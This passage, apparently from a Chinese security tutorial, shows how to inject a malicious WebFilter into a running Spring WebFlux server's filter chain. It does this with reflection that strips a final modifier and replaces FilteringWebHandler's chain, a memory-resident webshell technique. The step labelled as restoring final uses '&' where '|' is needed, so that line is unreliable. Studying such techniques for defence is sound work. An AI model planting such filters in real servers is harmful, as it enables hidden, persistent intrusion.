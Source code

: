 [![](assets/1698914691-09bff247430346b5342d82e8661ab6f4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225648-e1f03e1a-78c6-1.png)

其中第一个是private方法，是用来创建chain的中间结点，第二个是一个public方法，在FilteringWebHandler构造方法中创建chain也是用的这个构造方法，我们也同样使用这个方法

该构造方法需要两个参数，`handler` and `filters`

-   handler: 我们可以从线程中从chain中获取原始的handler
    
    [![](assets/1698914691-8a4dbcc1e759aedc6bdac5c0d1bc29ee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101225657-e718725e-78c6-1.png)
    

-   filters: 我们的目的就是添加一个我们自定义的filter，这里我们获取原始的filters(不影响业务)，之后创建一个新的List集合之后将原始的filters和我们自定义的filter添加进入

```plain
// 获取DefaultWebFilterChain中的handler属性
Object handler1 = getField(chain, "handler");
// 获取原始chain中的filters
List<WebFilter> filters = chain.getFilters();
// 创建自制的filter并添加进入newFilters集合中
ArrayList<WebFilter> newFilters = new ArrayList<>(filters);
WebFilter springWebFlux = new SpringWebFlux();
newFilters.add(springWebFlux);

// 模拟chain的初始化流程，创建一个包含恶意filter的chain
DefaultWebFilterChain newChain = new DefaultWebFilterChain((WebHandler) handler1, newFilters);
// 反射将newChain替换FilteringWebHandler的chain属性
Field fieldChain = FilteringWebHandler.class.getDeclaredField("chain");
Field fieldModifiers = Field.class.getDeclaredField("modifiers");
fieldChain.setAccessible(true);
fieldModifiers.setAccessible(true);
// 去除final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & ~Modifier.FINAL);
fieldChain.set(delegate2, newChain);
// 还原final
fieldModifiers.setInt(fieldChain, fieldChain.getModifiers() & Modifier.FINAL);
```
